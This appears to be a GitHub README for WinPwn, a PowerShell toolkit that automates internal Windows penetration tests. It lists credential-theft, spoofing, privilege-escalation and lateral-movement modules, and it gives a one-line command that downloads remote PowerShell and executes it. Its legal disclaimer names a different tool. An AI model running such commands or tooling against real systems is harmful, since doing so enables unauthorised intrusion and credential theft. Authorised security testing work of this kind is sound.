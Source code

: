 # WinPwn
Still much work to do - Automation for internal Windows Penetrationtest. 

	1) Automatic Proxy Detection
	2) Elevated or unelevated Detection
  	3) Forensic Mode oder Pentest Mode 
		a. Forensik -> Loki + PSRECON + Todo: Threathunting functions
		b. Pentest -> Internal Windows Domain System 
			i. Inveigh NBNS/SMB/HTTPS Spoofing
			ii. Local Reconing -> Hostenum, SessionGopher, FileSearch, PSRecon
			iii. Domain Reconing -> GetExploitableSystems, Powerview functions, ACL-Analysis, ADRecon
				1) Todo: Grouper for Group Policy overview
			iv. Privilege Escalation -> Powersploit (Allchecks), GPP-Passwords,  MS-Exploit Search (Sherlock), WCMDump, JAWS
			v. Lazagne Password recovery
			vi. Exploitation -> Kerberoasting, Mimikittenz, Mimikatz with Admin-rights
			vii. LateralMovement ->  FindLocalAdminAccess 
				1) Invoke-MassMimikatz || Powershell Empire Remote Launcher Execution over WMI
				2) DomainPasswordspray
				
			viii. Share Enumeration
			ix. FindGPOLocation --> Search for user/group rights 
			x. Find-Fruit

Just Import the Modules with "Import-Module .\WinPwn_v0.4.ps1" or with 
iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/WinPwn_v0.4.ps1')

And Start the Script with "WinPwn". The Winpwn function has to be started from the same directory, where the Script was imported.

The "oBEJHzXyARrq.exe"-Executable is an obfuscated Version of jaredhaights PSAttack Tool for Applocker/PS-Restriction Bypass (https://github.com/jaredhaight/PSAttack).

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/Windows%20PowerShell.png)


## Legal disclaimer:
Usage of BlackEye for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.
